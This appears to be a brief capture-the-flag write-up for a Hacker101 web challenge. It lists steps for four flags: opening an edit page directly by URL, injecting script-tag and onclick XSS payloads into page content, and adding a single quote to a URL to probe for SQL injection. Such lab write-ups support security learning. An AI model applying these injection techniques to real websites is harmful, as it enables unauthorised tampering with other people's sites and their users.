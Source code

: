 # Flag 1
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/6 -> flag
![](./images/1.png)
# Flag 2
create page and use XSS payload on title
<script>alert("xss")</script> 
# when going back home, get flag

![](./images/2.png)
# Flag 3
on page 2, edit -> https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2

change the button to this:
<button onclick=alert("pwned")>Some button</button>

popup with alert appears, now go to source code and flag is there
![](./images/3.png)

# Flag 4
add a single quote on the edit url
https://ec980f8824c3c416b995aea996497976.ctf.hacker101.com/page/edit/2'

![](./images/4.png)